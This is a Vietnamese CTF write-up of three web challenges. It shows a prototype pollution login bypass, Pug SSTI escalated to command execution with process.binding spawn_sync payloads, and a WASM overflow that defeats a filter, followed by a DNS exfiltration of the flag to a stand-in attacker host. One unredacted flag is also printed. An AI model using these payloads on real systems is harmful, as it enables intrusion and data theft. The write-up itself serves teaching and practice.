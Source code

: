```yaml
---
title: "W1 Playground Writeup"
date: 2024-05-01 00:00:00 +0800
categories: [CTF Writeup]
tags: [Prototype Pollution, SSTI, API testing, XSS, PHP]
---
```


## Bài 1: easy login

![image](https://i.imgur.com/paDR37b.png)

Phân tích qua code thì chúng ta có 2 endpoint cần để tâm là "/login" và "/admin"

![image](https://i.imgur.com/ljSahfY.png)

![image](https://i.imgur.com/mr7eats.png)

Chức năng login bắt chúng ta post data lên và server sẽ trả lại mã jwtkey để chúng ta đăng nhập
Chức năng admin kiểm tra xem chúng ta có phải admin không qua `isAdmin=true` sau khi phân tích jwtkey
Sau khi phân tích bài này dính lỗi Prototype Pollution bằng cách thêm `logindata["__proto__"][isAdmin]=true` vào thì prototype của `logindata` sẽ có thuộc tính `isAdmin=true` từ đó logindata sẽ kế thừa thuộc tính đó
Payload

![image](https://i.imgur.com/t62zoI3.png)

Có jwtkey rồi thì vào admin để lấy flag thôi

![image](https://i.imgur.com/NdpGVoS.png)

**Flag : W1{REDACTED}**


## Bài 2: render4free

![image](https://i.imgur.com/KTMygHL.png)

Phân tích qua code thì web này đang sử dụng Pug template engine để in ra các ký tự chúng ta gõ vào
Sau khi phân tích code thì chúng ta có thể rút ra web đang dính lỗi SSTI nhưng có 1 function này đang chặn chúng ta khai thác SSTI

![image](https://i.imgur.com/SliIvxB.png)

Sau khi đọc pug document thì chúng ta có thể sử dụng "-" để viết code js

![image](https://i.imgur.com/5mAiiby.png)

Bây giờ chúng ta có thể dùng "-" để viết code js thì chúng ta viết gì ? Đó chính là ghi đè lại function filter ký tự của chúng ta

```- global.replace_bad_char = str_to_replace => str_to_replace```
Tiếp tục ghi đè lại function trên để chúng ta có thể thực hiện lệnh eval

```- global.replace_bad_char = str_to_replace => eval(str_to_replace)```
Sau khi ghi đè được rồi thì viết vào để thử thực hiện RCE nào
Payload ```require('child_process').exec('ping hacked.sv')```
![image](https://i.imgur.com/ACbksnM.png)
Làm gì dễ thế anh Shin24 (author bài này) đã set type của nodejs là module tức chúng ta không thể require mà phải sử dụng import
Nhưng mà code đã chỉnh Promise.prototype.then đã thành 1 hàm trả về null

![image](https://i.imgur.com/2wwyD2a.png)

Oat gì dark vậy, lúc này chúng ta sử dụng process.binding để import các modules của nodejs
```js
  process.binding('spawn_sync').spawn({ 
    file: 'ls',
    args: [''],
    stdio: [
        { type: 'pipe', readable: true, writable: false },
        { type: 'pipe', readable: false, writable: true },
        { type: 'pipe', readable: false, writable: true }
  ]}).output.toString()
  ```
![image](https://i.imgur.com/zswZKe6.png)

Ngon vậy là có thể thực hiện lệnh ls
Để ý ở file Docker author đã tạo ra 1 file /read_flag để đọc flag vậy chúng ta thực thi file read_flag để nhận flag

![image](https://i.imgur.com/5EUqBt7.png)

Payload:
 ```js
  process.binding('spawn_sync').spawn({ 
    file: '/read_flag',
    args: [''],
    stdio: [
        { type: 'pipe', readable: true, writable: false },
        { type: 'pipe', readable: false, writable: true },
        { type: 'pipe', readable: false, writable: true }
  ]}).output.toString()
  ```

  ![image](https://i.imgur.com/dKfBXot.png)


  **Flag: W1{REDACTED}**



## Bài 3: Super sanitizer

  ![image](https://i.imgur.com/IZdGXnh.png)

  Tóm tắt bài web này sử dụng WASM được compile từ C và sử dụng nó để xử lý input của user
  File C nhận input của user và blacklist để xử lý nếu có ký tự blacklist thì ký tự đó sẽ bị xoá khỏi input của user

  ![image](https://i.imgur.com/4gXTA7l.png)

  Blacklist của bài này như sau `<imgoner='\"'>`

  Lỗi của bài này nằm ở đây

  ![image](https://i.imgur.com/zaOqpyM.png)

  Khi chúng ta cho 1 ký tự có độ dài là `0x300` thì `raw_str[0x300]` sẽ bị tràn và sẽ ghi đè lên ký tự đầu tiên của blacklist là `\x00` từ đó blacklist sẽ trở thành rỗng -> bypass filter

  Nhưng đến đây thì vẫn chưa xong, web có CSP để làm XSS khó hơn

  Sau một lúc fuzzing để kiểm tra thì dù CSP chặn redirect nhưng `window.location.href=hackerwebsite.com` vẫn resolve dns vậy ta có thể tận dụng cái này để leak flag do flag khá dài nên mình leak 2 lần để lấy flag (ví dụ `flag.hackerwebsite.com`)

  ![image](https://i.imgur.com/nkf2UMl.png)

  **Flag: W1{WASM_101_and_some_js_gadget_hope_you_enjoyed:)))))))))))))))))))))))))))))))))))))))))@0x4161}**










